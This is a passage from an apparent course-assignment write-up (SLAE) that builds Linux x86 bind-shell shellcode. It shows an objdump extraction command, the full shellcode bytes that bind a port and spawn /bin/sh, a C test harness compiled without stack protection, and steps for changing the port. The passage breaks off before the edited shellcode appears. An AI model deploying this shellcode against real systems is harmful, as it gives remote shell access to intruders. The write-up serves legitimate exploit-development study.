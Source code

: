 ### Step6 - Extract the shellcode

{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment1$ objdump -d ./bind_tcp_shell|grep '[0-9a-f]:'|grep -v 'file'|cut -f2 -d:|cut -f1-6 -d' '|tr -s ' '|tr '\t' ' '|sed 's/ $//g'|sed 's/ /\\x/g'|paste -d '' -s |sed 's/^/"/'|sed 's/$/"/g'
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x31\xdb\x89\xc3\x66\xb8\x69\x01\x56\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x66\xb8\x6b\x01\x31\xc9\xcd\x80\x66\xb8\x6c\x01\xcd\x80\x89\xc3\xb1\x03\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf7\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80"
{% endhighlight %}

### Step7 - Insert the shellcode into a test program written in C, and compile to test the shellcode

The C code: 
{% highlight js %}
#include<stdio.h>
#include<string.h>

unsigned char code[] = \
"\x31\xc0\x31\xdb\x31\xc9\x31\xd2\x31\xf6\x31\xff\x66\xb8\x67\x01\xb3\x02\xb1\x01\xcd\x80\x31\xdb\x89\xc3\x66\xb8\x69\x01\x56\x66\x68\x11\x5c\x66\x6a\x02\x89\xe1\xb2\x10\xcd\x80\x66\xb8\x6b\x01\x31\xc9\xcd\x80\x66\xb8\x6c\x01\xcd\x80\x89\xc3\xb1\x03\x31\xc0\xb0\x3f\xcd\x80\x49\x79\xf7\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x50\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80";

int main()
{

        printf("Shellcode Length:  %d\n", strlen(code));

        int (*ret)() = (int(*)())code;

        ret();

}

{% endhighlight %}

Compile the shellcode.c and run it:
{% highlight js %}
kali@kali:~/Desktop/SLAE-Assignments/assignment1$ gcc -fno-stack-protector -z execstack shellcode.c -o shellcode
kali@kali:~/Desktop/SLAE-Assignments/assignment1$ ./shellcode 
Shellcode Length:  96

{% endhighlight %}

![shellcode](https://bohansec.com/assets/shellcode.png "shellcode")

![confirm2](https://bohansec.com/assets/confirm2.png "confirm2")

### Step8 - Configure the port number

Edit the "\x11\x5c" to your desired port number. Convert the port number into hex. For the demo, we set the port to 8000 which in hex is "\x1f\x40". So, we have the following edited shellcode: 
